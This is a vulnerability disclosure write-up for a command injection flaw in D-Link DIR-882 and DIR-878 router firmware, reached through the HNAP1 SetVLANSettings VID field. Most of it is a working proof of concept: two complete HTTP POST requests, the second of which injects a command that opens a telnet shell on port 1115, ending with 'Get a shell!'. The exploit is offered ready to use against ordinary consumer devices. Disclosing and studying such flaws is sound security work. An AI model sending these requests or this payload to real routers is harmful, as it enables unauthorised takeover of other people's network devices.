 # D-Link Vulnerability

Vendor:D-Link

Product:DIR_882、DIR_878

Version:DIR_882_FW130B06、DIR_878_FW130B08

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetVLANSettings` function,`VLANID:1/VID` is directly passed by the attacker. After that, call the function nvram_safe_set to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

In `rc` binary:

In `start_wan` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

The necessary condition for successfully triggering the vulnerability is to enable the dhcp service, so we need to send two packets to complete the triggering of the vulnerability.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:70%;" /></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* Enable dhcp service, in (`SetWan2Settings`)
* set `VLANID:1/VID`=2 ;telnetd -l /bin/sh -p 1115 -b 0.0.0.0;, in (`SetVLANSettings`)



## PoC

Enable dhcp service, in (`SetWan2Settings`)

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 808
SOAPAction: "http://purenetworks.com/HNAP1/SetWan2Settings"
X-Requested-With: XMLHttpRequest
HNAP_AUTH: 41FA364C25CF06B51AB7984DF062D686 1727318676320
Accept: */*
Content-Type: text/xml; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/UsbSharing.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=hzIarr26
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetWan2Settings xmlns="http://purenetworks.com/HNAP1/">
			<Type>DHCP</Type>
			<Username/>
			<Password/>
			<MaxIdleTime/>
			<HostName></HostName>
			<VPNIPAddress/>
			<VPNSubnetMask/>
			<VPNGateway/>
			<ServiceName/>
			<AutoReconnect/>
			<IPAddress/>
			<SubnetMask/>
			<Gateway/>
			<ConfigDNS>
				<Primary></Primary>
				<Secondary></Secondary>
			</ConfigDNS>
			<MacAddress></MacAddress>
			<MTU>1500</MTU>
			<DsLite_Configuration/>
			<DsLite_AFTR_IPv6Address/>
			<DsLite_B4IPv4Address/>
		</SetWan2Settings>
	</soap:Body>
</soap:Envelope>
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

set `VLANID:1/VID`=2 ;telnetd -l /bin/sh -p 1115 -b 0.0.0.0;, in (`SetVLANSettings`)

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 1438
SOAPAction: "http://purenetworks.com/HNAP1/SetVLANSettings"
X-Requested-With: XMLHttpRequest
HNAP_AUTH: 883001F3220BBCE441F4DAEB63634B6B 1727318724611
Accept: */*
Content-Type: text/xml; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/Internet_VLAN.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=hzIarr26
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetVLANSettings xmlns="http://purenetworks.com/HNAP1/"><Enabled>true</Enabled><PriorityEnabled>false</PriorityEnabled><ISPName>Others</ISPName><VLANIDInfoLists><VLANID><Service>Internet</Service><Tagged>false</Tagged><VID>0</VID><Priority>0</Priority><VendorClass></VendorClass></VLANID><VLANID><Service>IPTV</Service><Tagged>false</Tagged><VID>2 ;telnetd -l /bin/sh -p 1115 -b 0.0.0.0;</VID><Priority>0</Priority><VendorClass></VendorClass></VLANID><VLANID><Service>VOIP</Service><Tagged>false</Tagged><VID>0</VID><Priority>0</Priority><VendorClass></VendorClass></VLANID></VLANIDInfoLists><VLANRuleInfoLists><VLANRule><Interface>LAN1</Interface><ServiceMapping>Internet</ServiceMapping></VLANRule><VLANRule><Interface>LAN2</Interface><ServiceMapping>Internet</ServiceMapping></VLANRule><VLANRule><Interface>LAN3</Interface><ServiceMapping>Internet</ServiceMapping></VLANRule><VLANRule><Interface>LAN4</Interface><ServiceMapping>Internet</ServiceMapping></VLANRule><VLANRule><Interface>WLAN</Interface><ServiceMapping>Internet</ServiceMapping></VLANRule><VLANRule><Interface>WLANGuestZone</Interface><ServiceMapping>Internet</ServiceMapping></VLANRule></VLANRuleInfoLists></SetVLANSettings></soap:Body></soap:Envelope>
```

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/6.png" style="zoom:100%;" /></div>
